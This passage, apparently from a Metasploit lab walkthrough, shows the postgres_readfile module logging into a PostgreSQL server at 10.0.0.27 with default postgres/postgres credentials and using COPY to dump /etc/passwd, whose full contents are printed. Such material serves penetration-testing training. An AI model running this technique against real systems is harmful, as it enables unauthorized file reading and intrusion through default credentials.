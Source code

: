 Now set options:

msf auxiliary(postgres_readfile) > set USERNAME postgres
USERNAME => postgres
msf auxiliary(postgres_readfile) > set PASSWORD postgres
PASSWORD => postgres
msf auxiliary(postgres_readfile) > set VERBOSE true
VERBOSE => true
msf auxiliary(postgres_readfile) > set RHOST 10.0.0.27
RHOST => 10.0.0.27
msf auxiliary(postgres_readfile) > run

[+] 10.0.0.27:5432 Postgres - Logged in to 'template1' with 'postgres':'postgres'
[*] 10.0.0.27:5432 Postgres - querying with 'select has_database_privilege(current_user,current_database(),'TEMP')'
[*] 10.0.0.27:5432 Postgres - querying with 'CREATE TEMP TABLE lPHBxP (INPUT TEXT);
      COPY lPHBxP FROM '/etc/passwd';
      SELECT * FROM lPHBxP'
[*] 10.0.0.27:5432 Rows Returned: 37
Query Text: 'CREATE TEMP TABLE lPHBxP (INPUT TEXT);
      COPY lPHBxP FROM '/etc/passwd';
      SELECT * FROM lPHBxP'
=====================================================================================================================

    input
    -----
    backup:x:34:34:backup:/var/backups:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    bind:x:105:113::/var/cache/bind:/bin/false
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    dhcp:x:101:102::/nonexistent:/bin/false
    distccd:x:111:65534::/:/bin/false
    ftp:x:107:65534::/home/ftp:/bin/false
    games:x:5:60:games:/usr/games:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    klog:x:103:104::/home/klog:/bin/false
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
    mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
    news:x:9:9:news:/var/spool/news:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    postfix:x:106:115::/var/spool/postfix:/bin/false
    postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    proftpd:x:113:65534::/var/run/proftpd:/bin/false
    proxy:x:13:13:proxy:/bin:/bin/sh
    root:x:0:0:root:/root:/bin/bash
    service:x:1002:1002:,,,:/home/service:/bin/bash
    snmp:x:115:65534::/var/lib/snmp:/bin/false
    sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
    statd:x:114:65534::/var/lib/nfs:/bin/false
    sync:x:4:65534:sync:/bin:/bin/sync
    sys:x:3:3:sys:/dev:/bin/sh
    syslog:x:102:103::/home/syslog:/bin/false
    telnetd:x:112:120::/nonexistent:/bin/false
    tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
    user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
